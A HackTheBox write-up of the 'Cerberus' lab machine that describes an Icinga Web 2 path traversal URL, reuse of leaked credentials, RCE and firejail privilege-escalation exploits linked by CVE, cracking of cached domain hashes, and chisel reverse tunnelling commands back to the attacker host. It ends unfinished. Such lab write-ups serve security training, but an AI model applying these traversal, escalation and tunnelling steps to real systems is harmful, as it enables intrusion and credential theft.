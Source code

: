 <h3> Cerberus HackTheBox </h3>

### Difficulty = Hard

### IP Address = 10.10.11.205

#### This is my first hard rated hackthebox machine and its a windows box xD

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/227714366-b69f0657-52ca-4fc5-b305-2f3da790d02d.png)

I added the domain name to my `/etc/hosts` file

```
➜  ~ cat /etc/hosts | grep cer
10.10.11.205    icinga.cerberus.local cerberus.local
➜  ~ 
```

After navigating to the web server I got this login page
![image](https://user-images.githubusercontent.com/127159644/227714514-c5dd3dc0-be36-4dc9-b8dc-03615a144e83.png)

Since weak cred doesn't work (lets face it this is an hard htb box 😂) I decided to check for exploits

And i found a path transversal exploit

Here's the resource [Exploit](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

To get the `/etc/passwd` file according to the exploit you goto

```
Vuln: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227714671-da582c0f-4cab-4f48-abeb-5e79c1b2839a.png)

And now if you read the resource you will see that authenticated user can then gain RCE via ssh key

First on the normal login page looking at the source code shows this
![image](https://user-images.githubusercontent.com/127159644/227714915-e0a99cbb-6f70-4034-a54a-df36067011a4.png)

```
file:///etc/icingaweb2/ssh/nima
```

It shows us the path to the `Icinga Web 2` 

That is useful cause we want to enumerate creds

So i asked chatgpt and got the answer
![image](https://user-images.githubusercontent.com/127159644/227715278-9ee180a5-8746-494e-ac21-72b053213df1.png)

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227715327-c72c1305-3955-422e-8e98-8728ed152669.png)

```
Username: matthew
Password: IcingaWebPassword2023
```

Using that to login works
![image](https://user-images.githubusercontent.com/127159644/227715398-130e54c1-1494-497b-8c22-f55e8dae793f.png)

From here we can get RCE using the same resource that exploited the path transversal

#### Exploitation: Remote Code Execution (CVE-2022-24715)

Using this exploit scrpit [Exploit](https://github.com/JacobEbben/CVE-2022-24715/blob/main/exploit.py)

I got shell
![image](https://user-images.githubusercontent.com/127159644/227747439-4c75a59c-8f97-4b7c-a2c7-59662defba6b.png)

Now this is weird cause cerberus is a windows box and not a linux box 

That means we're in some sort of container 🤔

Next thing is to get root and checking for suid binary shows this
![image](https://user-images.githubusercontent.com/127159644/227747986-0d824e24-6530-4251-8c57-05c5c6750d8a.png)

```
/usr/bin/firejail
```

So i searched for exploit and found this [Resource](https://www.openwall.com/lists/oss-security/2022/06/08/10)

There's an exploit script for (CVE-2022-31214) [Exploit](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py)

I transferred it to the target and run it, my privilege was escalated to root
![image](https://user-images.githubusercontent.com/127159644/227748283-8094b1ee-e287-4a56-8070-63a9f633fe1d.png)

After getting root i decided to find a way to escape this container

THen on running linpeas.sh i got this
![image](https://user-images.githubusercontent.com/127159644/227748494-a022052d-65dd-4081-81e6-570bb807c7a2.png)

Cache Cred is True in this joined domain host

So i asked chatgpt again and it says the path where the cred and information of a windows joined domain host is located at `/var/lib/sss/db`

After checking i saw that `cache_cerberus.local.ldb` has an hash

Then i cracked it and it belongs to user `matthew`
![image](https://user-images.githubusercontent.com/127159644/227749264-b16beab8-9eeb-4d54-9a6a-422541ee7a30.png)

But where do we login from?

Now i want to scan the whole host to know what ports are hosts are up

Using nmap compiled binary i scanned the host and figured that winrm is open
![image](https://user-images.githubusercontent.com/127159644/227749590-c14b2e92-50ec-4997-8dd2-333d727ff508.png)

With this i can now port forward using chisel to my host then login to the winrm as user matthew
![image](https://user-images.githubusercontent.com/127159644/227749695-19a8d29d-d16b-4dbf-b6f1-6f8597764201.png)

So i logged in as user matthew to the winrm service
![image](https://user-images.githubusercontent.com/127159644/227749766-ab9d6c82-c92d-4910-bdef-5d51215b3388.png)

#### Privilege Escalation

Checking `Program Files (x86)` I got `ManageEngine\ADSelfService Plus` 
![image](https://user-images.githubusercontent.com/127159644/227749914-b740b10e-0ff3-4909-86fe-8b5cbd576056.png)

Searching for exploit leads here [Resource](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html)

I'll port forward again using chisel in order to exploit the service running internally
![image](https://user-images.githubusercontent.com/127159644/227750304-c7085dd0-fe09-40fd-8e04-2deb54df0ecf.png)

```
# Attacker
chisel server -p 9090 --reverse

# Target
.\chisel-x64.exe client 10.10.14.175:9090 R:9091:socks
```

Since we need some requirements before exploiting the service lets get em

But i kept on getting 500 Intenal Error i don't know why
![image](https://user-images.githubusercontent.com/127159644/227751588-411284ee-f9bb-41da-a054-6a5911770e7c.png)

I'll stop here because ive been resetting and it doesn't still work 🤔

